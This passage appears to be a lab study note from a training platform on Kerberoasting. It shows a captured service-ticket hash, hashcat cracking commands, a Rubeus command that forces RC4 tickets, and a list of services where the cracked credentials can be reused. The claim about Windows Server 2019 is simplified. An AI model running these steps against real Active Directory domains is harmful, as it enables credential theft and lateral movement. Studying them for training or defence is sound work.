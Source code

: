 ```powershell-session
[*] Hash                   : $krb5tgs$23$*testspn$INLANEFREIGHT.LOCAL$testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*$CEA71B221FC2C00F8886261660536CC1$4A8E252D305475EB9410FF3E1E99517F90E27FB588173ACE3651DEACCDEC62165DE6EA1E6337F3640632FA42419A535B501ED1D4D1A0B704AA2C56880D74C294017<SNIP>
```

### Hashcat

To crack RC4:

```shell-session
jadu101@htb[/htb]$ hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

To crack AES256:

```shell-session
jadu101@htb[/htb]$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```
## Encryption Types

Kerberoasting tools typically requests RC4 encryption when TGS-REQ request because it is easier to crack compared to AES128 and AES-256.

`$krb5tgs$23$*`- RC4

`$krb5tgs$18$*` - AES-256

## Specify RC4

If we only want to request tickets for RC4 (type 23), we can use `/tgtdeleg` flag:

`.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap`

However, starting from Windows server 2019, AES is automatically required for Kerberoasting.

## Moving On

Now we have obtained new credentials through Kerberoasting. Where do we use these credentials?

- RDP, WinRM
- PsExec
- FileShare
- MSSQL
